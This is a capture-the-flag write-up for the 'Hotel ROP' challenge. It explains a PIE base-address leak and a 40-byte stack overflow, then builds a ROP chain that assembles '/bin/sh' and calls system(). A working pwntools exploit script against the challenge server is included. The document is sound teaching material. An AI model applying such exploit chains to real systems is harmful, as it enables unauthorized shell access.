 # Hotel ROP

In this challenge we are given a binary, `hotel_rop` and a link to a server running this binary.

Running the file, we get the following output:
```
$ ./hotel_rop
Welcome to Hotel ROP, on main street 0x5617508ca36d
You come here often?
a
I think you should come here more often.
```

Running this multiple times, the number after "main street" keeps changing every time, but always ends with `36d`.
As it always starts with `0x55` or `0x56`, I can assume that this is an address in the program itself and not the stack or heap or libc.

Opening `hotel_rop` in Radare2 and seeking to `main`, I find immediately that `main` is at an offset of `0x136d`, so this address should be our `main` in the current program.

Checking the security of the binary, I saw that it is a PIE, but without a stack canary. Thus, it's a candidate for buffer overflows and ROP.

To find the offset for overflowing the buffer I just kept running `perl -e 'print "\x41"x40;'` with different multipliers until I got a segmentation fault. The correct offset is 40 bytes.

Looking at `california` (offset `0x11dc`) and `silicon_valley` (offset `0x1283`) in Radare2, I notice that they write something to various offsets of some memory address called `win_land` in byte increments. Looking more closely, in `california`  those bytes are /, b, i and n, and in `silicon_valley` are /, s and h. As there is also a counter called `len` in the stack used for storing offsets, calling `california` then `silicon_valley` writes first `/bin`, then `/sh` to successive bytes in `win_land`, thus getting you the string `/bin/sh` to call `system("/bin/sh")` on.

![California](california.png)

![Silicon Valley](silicon_valley.png)


Well, that was easy.

Looking at the disassembly of the function `loss` in Radare2, I see that towards the end it runs `system(win_land)` if you pass a few complicated tests on the arguments to the function:

![Loss function](loss.png)

However, you can skip all these complicated tests and go right to the `lea rdi, obj.win_land` instruction at `0x11c3`, which puts `win_land` into the `rdi` register and calls `system()` with that as the argument.


So, the plan is: get the base address of `main` from the first line, calculate the offsets of `california`, `silicon_valley` and `loss`, and use this address to make a rop chain running those in order. Here is the code:

```python
from pwn import *

p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

main_offset = 0x136d
california_offset = 0x11dc
silicon_valley_offset = 0x1283
system_offset = 0x11c3

p.recvuntil("street")
base = int(p.recvline().strip(), 16) - main_offset

california = p64(base + california_offset)
silicon_valley = p64(base + silicon_valley_offset)
system = p64(base + system_offset)

p.recvuntil("often?\n")
p.sendline((b'\x00'*40) + california + silicon_valley + system)
p.interactive()
```

This pops a shell, and the flag is at `flag.txt`.


*As a side note, if you fill the 40 junk bytes before your ROP chain with anything but zeroes, the program says "I think you should come here more often.", and if you fill it with zeroes, the program says "Oh! You are already a regular visitor!"*
